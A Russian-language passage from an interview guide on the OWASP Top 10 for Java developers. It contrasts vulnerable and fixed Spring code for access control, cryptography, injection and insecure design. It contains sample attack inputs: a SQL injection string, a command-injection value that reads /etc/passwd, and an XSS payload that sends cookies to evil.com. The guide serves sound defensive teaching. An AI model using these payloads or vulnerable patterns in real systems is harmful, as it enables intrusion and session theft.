# Вопросы на собеседовании: `OWASP Top 10`

Подробные вопросы и ответы по всем 10 категориям `OWASP Top 10 2021` для `Senior Java Developer`. Покрывает каждую категорию в глубину: от теории и типичных уязвимостей до практических примеров кода (уязвимый → исправленный) и архитектурных решений.

**`OWASP Top 10`** — стандартный список наиболее критичных рисков безопасности веб-приложений, составляемый `Open Web Application Security Project`. Версия 2021 года включает новые категории (`Insecure Design`, `Software and Data Integrity Failures`, `SSRF`) и переосмысляет ранжирование на основе реальных инцидентов.

## Полезные ссылки

### Официальная документация

- [OWASP Top 10 2021](https://owasp.org/Top10/) — официальный список категорий с описанием
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/) — практические рекомендации по каждой категории
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) — методология тестирования безопасности
- [Spring Security Reference](https://docs.spring.io/spring-security/reference/) — безопасность в `Spring` экосистеме
- [CWE/SANS Top 25](https://cwe.mitre.org/top25/) — смежная классификация уязвимостей
- [SQL Injection and How to Prevent It?](https://www.baeldung.com/sql-injection) — SQL-инъекции и защита в Java
- [Prevent Cross-Site Scripting (XSS) in a Spring Application](https://www.baeldung.com/spring-prevent-xss) — защита от XSS в Spring
- [Sanitize HTML Code to Prevent XSS Attacks](https://www.baeldung.com/java-sanitize-html-prevent-xss-attacks) — санитизация HTML в Java
- [Content Security Policy with Spring Security](https://www.baeldung.com/spring-security-csp) — CSP-заголовки в Spring Security

## Содержание

- [Полезные ссылки](#полезные-ссылки)
- [See also](#see-also)

**Общие вопросы по OWASP Top 10**
- [Q1. (!) Что такое OWASP Top 10 и зачем он нужен разработчику?](#q1--что-такое-owasp-top-10-и-зачем-он-нужен-разработчику)
- [Q2. Какие изменения произошли в OWASP Top 10 2021 по сравнению с 2017?](#q2-какие-изменения-произошли-в-owasp-top-10-2021-по-сравнению-с-2017)
- [Q3. Как OWASP оценивает риск каждой категории?](#q3-как-owasp-оценивает-риск-каждой-категории)

**A01: Broken Access Control**
- [Q4. (!) Что такое Broken Access Control и почему это категория №1?](#q4--что-такое-broken-access-control-и-почему-это-категория-1)
- [Q5. (!) Что такое IDOR и как от него защищаться?](#q5--что-такое-idor-и-как-от-него-защищаться)
- [Q6. Чем отличается вертикальная эскалация привилегий от горизонтальной?](#q6-чем-отличается-вертикальная-эскалация-привилегий-от-горизонтальной)
- [Q7. Как реализовать deny-by-default авторизацию в Spring Security?](#q7-как-реализовать-deny-by-default-авторизацию-в-spring-security)

**A02: Cryptographic Failures**
- [Q8. (!) Какие типичные криптографические ошибки допускают разработчики?](#q8--какие-типичные-криптографические-ошибки-допускают-разработчики)
- [Q9. Как правильно хранить пароли в Java-приложении?](#q9-как-правильно-хранить-пароли-в-java-приложении)
- [Q10. Как правильно использовать AES-GCM для шифрования данных?](#q10-как-правильно-использовать-aes-gcm-для-шифрования-данных)

**A03: Injection**
- [Q11. (!) Какие виды Injection-атак существуют и как от них защищаться?](#q11--какие-виды-injection-атак-существуют-и-как-от-них-защищаться)
- [Q12. (!) Как SQL Injection работает через Spring Data JPA и JDBC?](#q12--как-sql-injection-работает-через-spring-data-jpa-и-jdbc)
- [Q13. Что такое XSS и как от него защищаться на бэкенде?](#q13-что-такое-xss-и-как-от-него-защищаться-на-бэкенде)
- [Q14. Что такое Command Injection и как его предотвратить?](#q14-что-такое-command-injection-и-как-его-предотвратить)

**A04: Insecure Design**
- [Q15. (!) Чем Insecure Design отличается от implementation-багов?](#q15--чем-insecure-design-отличается-от-implementation-багов)
- [Q16. Что такое threat modeling и как его применять?](#q16-что-такое-threat-modeling-и-как-его-применять)
- [Q17. Какие secure design patterns должен знать Java-разработчик?](#q17-какие-secure-design-patterns-должен-знать-java-разработчик)

**A05: Security Misconfiguration**
- [Q18. (!) Какие типичные ошибки конфигурации безопасности встречаются в Spring Boot?](#q18--какие-типичные-ошибки-конфигурации-безопасности-встречаются-в-spring-boot)
- [Q19. Как правильно настроить security headers?](#q19-как-правильно-настроить-security-headers)
- [Q20. Как разделить конфигурацию между dev и prod?](#q20-как-разделить-конфигурацию-между-dev-и-prod)

**A06: Vulnerable and Outdated Components**
- [Q21. (!) Как выявлять и управлять уязвимыми зависимостями?](#q21--как-выявлять-и-управлять-уязвимыми-зависимостями)
- [Q22. Что такое SBOM и зачем он нужен?](#q22-что-такое-sbom-и-зачем-он-нужен)
- [Q23. Как организовать SCA в CI/CD pipeline?](#q23-как-организовать-sca-в-cicd-pipeline)

**A07: Identification and Authentication Failures**
- [Q24. (!) Какие ошибки аутентификации наиболее опасны?](#q24--какие-ошибки-аутентификации-наиболее-опасны)
- [Q25. Как защититься от brute force и credential stuffing?](#q25-как-защититься-от-brute-force-и-credential-stuffing)
- [Q26. Как безопасно управлять JWT-токенами?](#q26-как-безопасно-управлять-jwt-токенами)

**A08: Software and Data Integrity Failures**
- [Q27. (!) Что такое supply-chain атаки и как от них защищаться?](#q27--что-такое-supply-chain-атаки-и-как-от-них-защищаться)
- [Q28. Чем опасна небезопасная десериализация в Java?](#q28-чем-опасна-небезопасная-десериализация-в-java)
- [Q29. Как защитить CI/CD pipeline от компрометации?](#q29-как-защитить-cicd-pipeline-от-компрометации)

**A09: Security Logging and Monitoring Failures**
- [Q30. (!) Что должна включать стратегия security-логирования?](#q30--что-должна-включать-стратегия-security-логирования)
- [Q31. Какие события безопасности обязательно логировать?](#q31-какие-события-безопасности-обязательно-логировать)
- [Q32. Как настроить алертинг на security-события?](#q32-как-настроить-алертинг-на-security-события)

**A10: Server-Side Request Forgery (SSRF)**
- [Q33. (!) Что такое SSRF и почему он попал в OWASP Top 10?](#q33--что-такое-ssrf-и-почему-он-попал-в-owasp-top-10)
- [Q34. Как реализовать защиту от SSRF в Java?](#q34-как-реализовать-защиту-от-ssrf-в-java)

**Практика и процессы**
- [Q35. (!) Как встроить OWASP-проверки в SDLC и CI/CD?](#q35--как-встроить-owasp-проверки-в-sdlc-и-cicd)
- [Q36. Какие security-тесты обязательны перед релизом?](#q36-какие-security-тесты-обязательны-перед-релизом)
- [Q37. Как организовать безопасный секрет-менеджмент?](#q37-как-организовать-безопасный-секрет-менеджмент)
- [Q38. Как приоритизировать исправление уязвимостей?](#q38-как-приоритизировать-исправление-уязвимостей)
- [Q39. Что такое Defense in Depth и как применять на практике?](#q39-что-такое-defense-in-depth-и-как-применять-на-практике)
- [Q40. Как подготовиться к вопросам по OWASP на собеседовании?](#q40-как-подготовиться-к-вопросам-по-owasp-на-собеседовании)

**Углублённые вопросы**
- [Q41. (!) Как реализовать Path Traversal защиту в Java?](#q41--как-реализовать-path-traversal-защиту-в-java)
- [Q42. Что такое XXE и как защититься в Java?](#q42-что-такое-xxe-и-как-защититься-в-java)
- [Q43. (!) Как безопасно обрабатывать загрузку файлов в Spring Boot?](#q43--как-безопасно-обрабатывать-загрузку-файлов-в-spring-boot)
- [Q44. Как работает Log4Shell и почему это критично?](#q44-как-работает-log4shell-и-почему-это-критично)
- [Q45. Как реализовать безопасную работу с Cryptographic Keys в Java?](#q45-как-реализовать-безопасную-работу-с-cryptographic-keys-в-java)

---

## Q1. (!) Что такое OWASP Top 10 и зачем он нужен разработчику?

`OWASP Top 10` — это приоритизированный список наиболее критичных классов уязвимостей веб-приложений, составляемый `Open Web Application Security Project` на основе анализа реальных инцидентов. Обновляется каждые 3-4 года; текущая версия — **2021**.

Это **не стандарт** и не исчерпывающий чек-лист, а **модель рисков**, которая помогает команде сфокусироваться на самых вероятных и дорогих проблемах. Для разработчика OWASP Top 10 — это:

1. **Язык коммуникации** с security-командой и заказчиком
2. **Чек-лист** на code review, при проектировании и перед релизом
3. **Базовый минимум** — если вы не покрываете эти 10 категорий, всё остальное бессмысленно
4. **Маппинг на CWE** — каждая категория связана с конкретными `Common Weakness Enumeration`

> **Что хотят услышать на собеседовании**: не просто перечисление 10 пунктов, а понимание того, как OWASP используется в реальном SDLC — от design review до CI/CD quality gates.

## Q2. Какие изменения произошли в OWASP Top 10 2021 по сравнению с 2017?

Версия 2021 принесла три новых категории и существенную перегруппировку:

| # | 2017 | 2021 | Изменение |
|---|------|------|-----------|
| A01 | `Injection` | `Broken Access Control` | Поднялся с 5-го места |
| A02 | `Broken Authentication` | `Cryptographic Failures` | Расширен от аутентификации до всей криптографии |
| A03 | `Sensitive Data Exposure` | `Injection` | Опустился с 1-го места |
| A04 | `XXE` | **`Insecure Design`** | **Новая категория** |
| A05 | `Broken Access Control` | `Security Misconfiguration` | Поглотил `XXE` |
| A06 | `Security Misconfiguration` | `Vulnerable Components` | Поднялся |
| A07 | `XSS` | `Auth Failures` | `XSS` вошёл в `Injection` |
| A08 | `Insecure Deserialization` | **`Integrity Failures`** | **Новая**, поглотила десериализацию |
| A09 | `Using Components with Known Vulns` | `Logging Failures` | — |
| A10 | `Insufficient Logging` | **`SSRF`** | **Новая категория** |

Ключевые наблюдения:
- **`Broken Access Control`** стал №1 — он найден в 94% приложений при тестировании
- **`Insecure Design`** подчёркивает, что secure coding без secure design недостаточно
- **`SSRF`** отражает рост cloud-инфраструктуры и атак на metadata endpoints

## Q3. Как OWASP оценивает риск каждой категории?

Каждая категория оценивается по формуле: **`Risk = Likelihood × Impact`**, где:

- **`Likelihood`** складывается из `Threat Agent`, `Vulnerability Prevalence` и `Detectability`
- **`Impact`** включает `Technical Impact` и `Business Impact`



На практике OWASP Top 10 2021 использует данные из:
- **Анализа CVE** и инцидентов (data-driven для 8 категорий)
- **Опроса экспертов** (community survey для 3 категорий: `Insecure Design`, `SSRF`, `Integrity Failures`)

---

## Q4. (!) Что такое Broken Access Control и почему это категория №1?

`Broken Access Control` (`A01:2021`) — нарушение контроля доступа, когда пользователь может получить доступ к ресурсам или выполнить операции, на которые у него нет прав. Стал №1, потому что обнаруживается в **94% протестированных приложений**.

Типичные проявления:
- **`IDOR`** — прямая ссылка на объект без проверки владельца
- **Вертикальная эскалация** — обычный пользователь вызывает admin-эндпоинт
- **Горизонтальная эскалация** — пользователь A видит данные пользователя B
- **Обход проверок** — манипуляция с путями, HTTP-методами, параметрами
- **`CORS` misconfiguration** — доступ с неавторизованного origin



Принцип защиты — **deny-by-default** на каждом уровне: контроллер, сервис, база данных. Подробнее о паттернах авторизации — в [[authentication-authorization-patterns-interview|вопросах по авторизации]].

## Q5. (!) Что такое IDOR и как от него защищаться?

`IDOR` (`Insecure Direct Object Reference`) — атака, при которой злоумышленник подменяет идентификатор объекта в запросе и получает доступ к чужим данным.

**Уязвимый код:**
```java
// Нет проверки ownership — любой аутентифицированный пользователь
// может получить данные любого аккаунта, подменив accountId
@GetMapping("/api/accounts/{accountId}")
public Account getAccount(@PathVariable Long accountId) {
    return accountRepository.findById(accountId).orElseThrow();
}
```

**Исправленный код:**
```java
@GetMapping("/api/accounts/{accountId}")
public Account getAccount(@PathVariable Long accountId,
                          @AuthenticationPrincipal UserDetails user) {
    Account account = accountRepository.findById(accountId)
            .orElseThrow(() -> new ResourceNotFoundException("Account not found"));
    
    // Проверка: пользователь — владелец или admin
    if (!account.getOwnerId().equals(user.getId()) 
            && !user.hasAuthority("ROLE_ADMIN")) {
        throw new AccessDeniedException("Not authorized to access this account");
    }
    return account;
}
```

**Ещё надёжнее** — фильтрация на уровне запроса к БД:
```java
@Query("SELECT a FROM Account a WHERE a.id = :id AND a.ownerId = :ownerId")
Optional<Account> findByIdAndOwnerId(@Param("id") Long id, 
                                      @Param("ownerId") Long ownerId);
```

Дополнительные меры:
- Использовать **`UUID`** вместо sequential `Long` для идентификаторов — усложняет перебор
- Централизовать проверку ownership в **`PermissionEvaluator`** (см. [[spring-security-interview|Spring Security]])
- Добавить **`Row Level Security`** на уровне БД как defense in depth

## Q6. Чем отличается вертикальная эскалация привилегий от горизонтальной?

| Тип | Описание | Пример |
|-----|----------|--------|
| **Вертикальная** | Пользователь получает доступ к функциям более высокой роли | Обычный пользователь вызывает `DELETE /api/admin/users/42` |
| **Горизонтальная** | Пользователь получает доступ к данным другого пользователя той же роли | Пользователь A читает заказы пользователя B через `GET /api/orders/999` |

**Вертикальная** — обычно ошибка в конфигурации маршрутов или отсутствие `@PreAuthorize`:

```java
// Уязвимо: эндпоинт доступен всем аутентифицированным пользователям
@DeleteMapping("/api/admin/users/{id}")
public void deleteUser(@PathVariable Long id) {
    userService.delete(id);
}

// Исправлено: явное ограничение по роли
@PreAuthorize("hasRole('ADMIN')")
@DeleteMapping("/api/admin/users/{id}")
public void deleteUser(@PathVariable Long id) {
    userService.delete(id);
}
```

**Горизонтальная** — более коварная, потому что стандартный RBAC её не ловит. Нужна проверка ownership на уровне бизнес-логики (см. Q5).

## Q7. Как реализовать deny-by-default авторизацию в Spring Security?

Принцип `deny-by-default` означает: всё, что явно не разрешено — запрещено. В `Spring Security` это реализуется через `SecurityFilterChain`:

```java
@Configuration
@EnableMethodSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                // Явно разрешённые пути
                .requestMatchers("/api/public/**", "/health").permitAll()
                .requestMatchers("/api/admin/**").hasRole("ADMIN")
                // ВСЁ ОСТАЛЬНОЕ — запрещено
                .anyRequest().authenticated()
            )
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
            )
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.STATELESS)
            );
        return http.build();
    }
}
```

Типичные ошибки:
- Использование `.anyRequest().permitAll()` — отключает защиту для забытых эндпоинтов
- Защита только на уровне URL, без `@PreAuthorize` в сервисах
- Забытые `Actuator` эндпоинты — `/actuator/env` может содержать секреты

---

## Q8. (!) Какие типичные криптографические ошибки допускают разработчики?

`Cryptographic Failures` (`A02:2021`) покрывает ошибки в шифровании, хэшировании и обработке чувствительных данных. Основные проблемы:

| Ошибка | Пример | Правильный подход |
|--------|--------|-------------------|
| Хранение паролей в открытом виде или через `MD5`/`SHA-1` | `user.setPassword(rawPassword)` | `BCrypt`, `Argon2`, `scrypt` |
| Слабые алгоритмы шифрования | `DES`, `3DES`, `RC4` | `AES-256-GCM` |
| Отсутствие шифрования данных in transit | `HTTP` вместо `HTTPS` | `TLS 1.2+`, `HSTS` |
| Хардкод ключей в коде | `private static final String KEY = "..."` | `Vault`, `AWS KMS`, `GCP KMS` |
| Использование `ECB` mode | `AES/ECB/PKCS5Padding` | `AES/GCM/NoPadding` |
| Переиспользование `IV`/`nonce` | Статический `IV` для `GCM` | Случайный `IV` при каждом шифровании |
| Собственная криптография | Самописный алгоритм | Проверенные библиотеки (`BouncyCastle`, `Tink`) |

> **На собеседовании** часто спрашивают: «Почему нельзя использовать `MD5` для паролей?» — потому что `MD5` быстрый (GPU перебирает миллиарды хэшей/сек), не использует соль по умолчанию, и имеет коллизии. `BCrypt` специально **замедлён** (cost factor), использует уникальную соль и устойчив к rainbow tables.

## Q9. Как правильно хранить пароли в Java-приложении?

Единственный правильный подход — **adaptive hashing** с уникальной солью:

```java
@Configuration
public class PasswordConfig {

    @Bean
    public PasswordEncoder passwordEncoder() {
        // BCrypt с cost factor 12 (~250ms на хэширование)
        return new BCryptPasswordEncoder(12);
    }
}

@Service
@RequiredArgsConstructor
public class UserService {

    private final PasswordEncoder passwordEncoder;
    private final UserRepository userRepository;

    public void registerUser(String username, String rawPassword) {
        // Пароль хэшируется с уникальной солью
        String encoded = passwordEncoder.encode(rawPassword);
        // encoded = "$2a$12$LJ3m4ys..." — содержит алгоритм, cost, соль и хэш
        userRepository.save(new User(username, encoded));
    }

    public boolean authenticate(String username, String rawPassword) {
        User user = userRepository.findByUsername(username)
                .orElseThrow(() -> new BadCredentialsException("Invalid credentials"));
        // matches() извлекает соль из хэша и сравнивает
        return passwordEncoder.matches(rawPassword, user.getPassword());
    }
}
```

Для новых проектов рекомендуется `Argon2` — победитель `Password Hashing Competition`:
```java
@Bean
public PasswordEncoder passwordEncoder() {
    return new Argon2PasswordEncoder(16, 32, 1, 65536, 3);
    // saltLength=16, hashLength=32, parallelism=1, memory=64MB, iterations=3
}
```

## Q10. Как правильно использовать AES-GCM для шифрования данных?

`AES-GCM` — authenticated encryption, обеспечивает и конфиденциальность, и целостность данных:

```java
public class AesGcmEncryptor {

    private static final String ALGORITHM = "AES/GCM/NoPadding";
    private static final int IV_LENGTH = 12;   // 96 bit для GCM
    private static final int TAG_LENGTH = 128;  // authentication tag

    public byte[] encrypt(byte[] plaintext, SecretKey key) throws Exception {
        // КРИТИЧНО: каждый раз новый IV
        byte[] iv = new byte[IV_LENGTH];
        SecureRandom.getInstanceStrong().nextBytes(iv);

        Cipher cipher = Cipher.getInstance(ALGORITHM);
        cipher.init(Cipher.ENCRYPT_MODE, key, new GCMParameterSpec(TAG_LENGTH, iv));

        byte[] ciphertext = cipher.doFinal(plaintext);

        // Склеиваем IV + ciphertext для хранения
        ByteBuffer buffer = ByteBuffer.allocate(IV_LENGTH + ciphertext.length);
        buffer.put(iv);
        buffer.put(ciphertext);
        return buffer.array();
    }

    public byte[] decrypt(byte[] encrypted, SecretKey key) throws Exception {
        ByteBuffer buffer = ByteBuffer.wrap(encrypted);

        byte[] iv = new byte[IV_LENGTH];
        buffer.get(iv);

        byte[] ciphertext = new byte[buffer.remaining()];
        buffer.get(ciphertext);

        Cipher cipher = Cipher.getInstance(ALGORITHM);
        cipher.init(Cipher.DECRYPT_MODE, key, new GCMParameterSpec(TAG_LENGTH, iv));

        return cipher.doFinal(ciphertext); // бросит AEADBadTagException при tamper
    }
}
```

Главные правила:
- **Никогда** не переиспользовать `IV` с одним и тем же ключом — это полностью ломает `GCM`
- Хранить ключи в `Vault` / `KMS`, **не** в коде или конфиге
- Использовать `SecureRandom.getInstanceStrong()` для генерации `IV`
- Рассмотреть `Google Tink` — высокоуровневая обёртка, которая исключает типичные ошибки

---

## Q11. (!) Какие виды Injection-атак существуют и как от них защищаться?

`Injection` (`A03:2021`) — когда недоверенный ввод попадает в интерпретатор без безопасной обработки. Основные виды:



**Универсальные принципы защиты:**

1. **Параметризованные запросы** — для SQL, LDAP, NoSQL
2. **Валидация на входе** — whitelist допустимых символов/форматов
3. **Экранирование на выходе** — контекстно-зависимое (HTML, JS, URL, CSS)
4. **Принцип минимальных привилегий** — DB-пользователь не должен иметь `DROP` права
5. **WAF** — дополнительный слой, но не замена правильного кода

## Q12. (!) Как SQL Injection работает через Spring Data JPA и JDBC?

`Spring Data JPA` защищает от SQL Injection **по умолчанию**, если использовать derived queries или именованные параметры. Но есть ловушки:

**Уязвимый код — конкатенация в нативном запросе:**
```java
// ОПАСНО: прямая конкатенация в native query
@Query(value = "SELECT * FROM users WHERE username = '" + username + "'", 
       nativeQuery = true)
List<User> findByUsername(String username);
// Атака: username = "' OR '1'='1' --"
```

**Уязвимый код — JDBC без параметров:**
```java
// ОПАСНО: конкатенация строк
String sql = "SELECT * FROM users WHERE username = '" + username 
           + "' AND password = '" + password + "'";
jdbcTemplate.queryForList(sql);
```

**Безопасный код — параметризованные запросы:**
```java
// JPA — derived query (безопасно)
Optional<User> findByUsername(String username);

// JPA — именованный параметр (безопасно)
@Query("SELECT u FROM User u WHERE u.username = :username")
Optional<User> findUser(@Param("username") String username);

// JDBC — placeholder (безопасно)
String sql = "SELECT * FROM users WHERE username = ? AND status = ?";
jdbcTemplate.query(sql, rowMapper, username, status);

// NamedParameterJdbcTemplate (безопасно)
String sql = "SELECT * FROM users WHERE username = :username";
MapSqlParameterSource params = new MapSqlParameterSource("username", username);
namedJdbcTemplate.query(sql, params, rowMapper);
```

**Особый случай — динамические ORDER BY / table names:**
```java
// Нельзя параметризовать ORDER BY — нужен whitelist
private static final Set<String> ALLOWED_SORT = Set.of("name", "created_at", "email");

public List<User> findSorted(String sortColumn) {
    if (!ALLOWED_SORT.contains(sortColumn)) {
        throw new IllegalArgumentException("Invalid sort column");
    }
    // Безопасно: значение из whitelist
    return jdbcTemplate.query("SELECT * FROM users ORDER BY " + sortColumn, rowMapper);
}
```

## Q13. Что такое XSS и как от него защищаться на бэкенде?

`XSS` (`Cross-Site Scripting`) — инъекция вредоносного JavaScript в страницы, которые видят другие пользователи. Бэкенд-разработчик отвечает за:

**Stored XSS — сохранённый вредоносный ввод:**
```java
// ОПАСНО: HTML из пользовательского ввода сохраняется как есть
@PostMapping("/api/comments")
public Comment createComment(@RequestBody CommentRequest request) {
    Comment comment = new Comment();
    comment.setText(request.getText()); // "<script>fetch('evil.com?c='+document.cookie)</script>"
    return commentRepository.save(comment);
}
```

**Защита на бэкенде:**
```java
@PostMapping("/api/comments")
public Comment createComment(@RequestBody @Valid CommentRequest request) {
    Comment comment = new Comment();
    // Санитизация HTML — удаляет опасные теги, оставляет безопасные
    String sanitized = Jsoup.clean(request.getText(), Safelist.basic());
    comment.setText(sanitized);
    return commentRepository.save(comment);
}
```

**Security headers** как дополнительный слой:
```java
// Content-Security-Policy предотвращает inline-скрипты
http.headers(headers -> headers
    .contentSecurityPolicy(csp -> csp
        .policyDirectives("default-src 'self'; script-src 'self'; style-src 'self'"))
    .xssProtection(xss -> xss.headerValue(XXssProtectionHeaderWriter.HeaderValue.ENABLED_MODE_BLOCK))
);
```

## Q14. Что такое Command Injection и как его предотвратить?

`Command Injection` — выполнение произвольных команд ОС через пользовательский ввод:

**Уязвимый код:**
```java
// ОПАСНО: конкатенация в Runtime.exec()
@GetMapping("/api/ping")
public String ping(@RequestParam String host) {
    Process p = Runtime.getRuntime().exec("ping -c 1 " + host);
    // Атака: host = "8.8.8.8; cat /etc/passwd"
    return readOutput(p);
}
```

**Исправленный код:**
```java
private static final Pattern HOSTNAME_PATTERN = Pattern.compile("^[a-zA-Z0-9][a-zA-Z0-9.-]{0,253}$");

@GetMapping("/api/ping")
public String ping(@RequestParam String host) {
    // 1. Whitelist-валидация формата
    if (!HOSTNAME_PATTERN.matcher(host).matches()) {
        throw new IllegalArgumentException("Invalid hostname");
    }
    
    // 2. ProcessBuilder — аргументы передаются как отдельные элементы (не через shell)
    ProcessBuilder pb = new ProcessBuilder("ping", "-c", "1", "-W", "3", host);
    pb.redirectErrorStream(true);
    Process p = pb.start();
    
    // 3. Таймаут
    if (!p.waitFor(5, TimeUnit.SECONDS)) {
        p.destroyForcibly();
        throw new TimeoutException("Ping timed out");
    }
    return readOutput(p);
}
```

Ключевое: **`ProcessBuilder`** с массивом аргументов **не запускает shell**, поэтому `;`, `|`, `&&` не интерпретируются.

---

## Q15. (!) Чем Insecure Design отличается от implementation-багов?

`Insecure Design` (`A04:2021`) — **новая категория** в 2021, подчёркивающая разницу между **дизайном** и **реализацией**:

| Insecure Design | Implementation Bug |
|---|---|
| Архитектура не предусматривает защиту | Защита предусмотрена, но реализована с ошибкой |
| Нельзя исправить лучшим кодом | Можно исправить фиксом конкретного бага |
| Пример: нет rate limit на API восстановления пароля | Пример: rate limit есть, но обходится через заголовок |
| Обнаруживается через threat modeling | Обнаруживается через SAST/DAST/пентест |

**Пример insecure design** — кинотеатр без лимита на бронирование:
```java
// Дизайн: пользователь может забронировать неограниченное количество мест
// Даже идеальная реализация не спасёт от ботов, скупающих все билеты
@PostMapping("/api/bookings")
public Booking createBooking(@RequestBody BookingRequest request) {
    return bookingService.book(request); // Нет лимитов, нет CAPTCHA
}
```

**Secure design:**
```java
@PostMapping("/api/bookings")
@RateLimiter(name = "bookingApi")
public Booking createBooking(@RequestBody @Valid BookingRequest request,
                             @AuthenticationPrincipal UserDetails user) {
    // Бизнес-правило: макс. 10 мест на сеанс на пользователя
    int existing = bookingRepository.countByUserAndSession(user.getId(), request.getSessionId());
    if (existing + request.getSeatCount() > 10) {
        throw new BusinessRuleException("Maximum 10 seats per session");
    }
    return bookingService.book(request, user);
}
```

## Q16. Что такое threat modeling и как его применять?

`Threat modeling` — систематический анализ потенциальных угроз для системы **до начала реализации**. Самая популярная методология — **`STRIDE`**:



**Практический процесс:**
1. **Нарисовать DFD** (Data Flow Diagram) — компоненты, потоки данных, trust boundaries
2. **Применить STRIDE** к каждому элементу DFD
3. **Оценить риск** — likelihood × impact
4. **Определить mitigations** — конкретные контрмеры
5. **Задокументировать** — threat model живёт с проектом и обновляется

> Threat modeling — это задача **разработчика**, не только security-команды. Разработчик лучше знает архитектуру и dataflow системы.

## Q17. Какие secure design patterns должен знать Java-разработчик?

Ключевые паттерны безопасного дизайна:

**1. Defense in Depth** — несколько уровней защиты (подробнее в Q39):
```java
// Уровень 1: авторизация на URL
// Уровень 2: @PreAuthorize на методе
// Уровень 3: проверка ownership в сервисе
// Уровень 4: Row Level Security в БД
```

**2. Fail-Safe Defaults** — по умолчанию запрещено:
```java
public boolean hasPermission(String user, String resource) {
    // Если нет явного разрешения — запрет
